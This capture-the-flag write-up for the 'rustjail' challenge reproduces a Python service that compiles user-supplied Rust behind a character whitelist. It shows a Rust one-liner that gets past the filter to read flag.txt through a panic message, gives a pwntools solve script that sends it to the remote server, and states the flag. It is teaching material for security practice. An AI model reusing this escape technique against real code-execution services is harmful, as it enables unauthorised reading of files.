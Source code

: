 # rustjail

```
hmm the iron bars in this jail cell are rusty ... is that easier or harder to break than regular iron bars?

nc challs2.pyjail.club 21051
```

Attachment:

```python
#!/usr/bin/python3
import string
import os

allowed = set(string.ascii_lowercase+string.digits+' :._(){}"')

os.environ['RUSTUP_HOME']='/usr/local/rustup'
os.environ['CARGO_HOME']='/usr/local/cargo'
os.environ['PATH']='/usr/local/cargo/bin:/usr/bin'

inp = input("gib cod: ").strip()
if not allowed.issuperset(set(inp)):
    print("bad cod")
    exit()
with open("/tmp/cod.rs", "w") as f:
    f.write(inp)
os.system("/usr/local/cargo/bin/rustc /tmp/cod.rs -o /tmp/cod")
os.system("/tmp/cod; echo Exited with status $?")
```

We need to write a Rust program only using characters in `allowed`. Steps:

1. read flag content via `std::fs::read("flag.txt")`
2. print the flag content out via `std::fs::read("flag.txt").unwrap_err()`, since we cannot use macros due to `!` or write to stdout because we cannot `use std::io::Write;` due to `;`
3. since the main function cannot have return type due to `->`, use `std::panic::panic_any` to convert return type to `!` (never return)

The panic message looks like:

```
thread 'main' panicked at /tmp/cod.rs:1:61:
called `Result::unwrap_err()` on an `Ok` value: [106, 97, 105, 108, 123, 114, 117, 115, 116, 106, 97, 105, 108, 95, 99, 49, 57, 51, 56, 102, 97, 100, 57, 98, 99, 48, 50, 125, 10]
note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
```

Attack:

```python
from pwn import *
context(log_level = "debug")

p = remote("challs2.pyjail.club", 21051)
#p = process(["python3", "main.py"])
p.sendline(b'fn main() { std::panic::panic_any(std::fs::read("flag.txt").unwrap_err())}')
s = p.recvall().decode()
for line in s.splitlines():
    if line.startswith("called"):
        arr = line.split("[")[1].split("]")[0]
        arr = eval("[" + arr + "]")
        print(bytes(arr))
```

Flag: `jail{rustjail_c1938fad9bc02}`.
